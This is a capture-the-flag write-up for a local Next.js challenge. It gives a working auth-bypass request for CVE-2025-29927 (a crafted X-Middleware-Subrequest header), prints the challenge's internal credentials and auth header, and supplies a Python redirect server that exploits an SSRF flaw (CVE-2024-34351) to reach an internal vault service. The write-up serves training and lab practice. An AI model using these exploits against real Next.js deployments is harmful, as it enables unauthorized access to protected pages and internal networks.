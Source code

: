install `docker` and `docker-compose`
```sh
cd ./CTFs/04-2025/web/web2
```
then
```sh
sudo docker-compose up
```
then application should build and run on port 3000 locally
![[Pasted image 20250411224644.png]]the 1 st flag will be obtained by bypassing the auth using  [CVE-2025-29927](https://vercel.com/blog/postmortem-on-next-js-middleware-bypass) 
you could've guessed by provided `package.json` file in the description as a **free** hint:
```json
{
  "name": "vulnerable-app",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "@tailwindcss/typography": "^0.5.16",
    "bootstrap": "^5.3.3",
    "emoji-picker-react": "^4.12.2",
    "html2pdf.js": "^0.10.3",
    "jspdf": "^3.0.1",
    "next": "14.0.0",
    "react": "^18",
    "react-dom": "^18",
    "tailwindcss": "^4.0.15"
  },
  "devDependencies": {
    "@types/node": "^20",
    "@types/react": "^18",
    "@types/react-dom": "^18",
    "eslint": "^8",
    "eslint-config-next": "14.0.0",
    "typescript": "^5"
  }
}

```
Next js version as follows:
```json
...
"next": "14.0.0"
...
```
you can use this Poc https://github.com/MuhammadWaseem29/CVE-2025-29927-POC
```http
GET /dashboard HTTP/1.1
Host: 192.168.0.85:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

![[Pasted image 20250411225646.png]]

to bypass the auth and get access to the dashboard, click the "GETFLAG 1" button

**FLAG2 ...**

to get the 2 nd flag you should reach the internal host `http://vault-app:8001`
There was 2 ways to know internal IP of that vault-app
1. Scan the default subnet of docker containers by brute-forcing IP addresses
2. Get the hint for 100 points, in the hint i was shared `docker-compose.yml` used to build the whole application as follows:
```yml
version: '3.8'

networks:
  vault_net:
    driver: bridge
    ipam:
      config:
        - subnet: 172.30.0.0/24

services:
  next-app:
    build:
      context: ./next-app
    container_name: next-app
    ports:
      - "3000:3000"
    depends_on:
      - vault-app
    networks:
      vault_net:
        ipv4_address: 172.30.0.20
    command: >
      sh -c "npm install &&
             npm run build &&
             npm start"

  vault-app:
    build:
      context: ./vault-internal
      dockerfile: Dockerfile
    container_name: vault-app
    env_file:
      - ./vault-internal/.vault.env
    networks:
      vault_net:
        ipv4_address: 
```
you can see the vault app has given IP of `172.30.0.10` and you can see the port number in the conversation between Intern and DevOps in `/dashboard` page

Here is overall  scenario
![[Pasted image 20250412123417.png]]


Explore how vault-app works (source can be downloded with "Download" button)
App can be authenticated with
`Authorization-Internal: Basic <b64 encoded credentials>`
you can see credentials were  `coder:Employee@2025` . The auth header will be 
`Authorization-Internal:Basic Y29kZXI6RW1wbG95ZWVAMjAyNQ==`

According to the CVE-2024-34351 to exploit you need an attacker server IP that does redirect incoming requests to the internal host , which is `http://172.30.0.10:8001`
. 
Can be constructed with , following python code:
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json

class SimpleHandler(BaseHTTPRequestHandler):
    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()

    def do_GET(self):
        ssrf = self.headers.get('ssrf', 'http://172.30.0.10:8001')
        
        log_data = {
            'url': self.path,
            'method': self.command,
            'ssrf': ssrf
        }
        print("Request received: " + json.dumps(log_data))
        print(f"Redirecting to: {ssrf}")

        self.send_response(302)
        self.send_header('Location', ssrf)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Listening on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

and new attack scenario will be:
![[Pasted image 20250412153919.png]]

you need an attacker server should be prepared with public IP (in our case private IP also works because you're deploying the app locally)
![[Pasted image 20250412154820.png]]

SSRF bug was cause by next js actions (can be triggered by clicking "Internal" button)
to achieve the results you should replace your `Host: <attacker-IP>` , `Origin: http(s)://<attacker-IP>`
then we can see the response coming from the vault app here:
![[Pasted image 20250412155156.png]]

and FLAG2:
![[Pasted image 20250412155302.png]]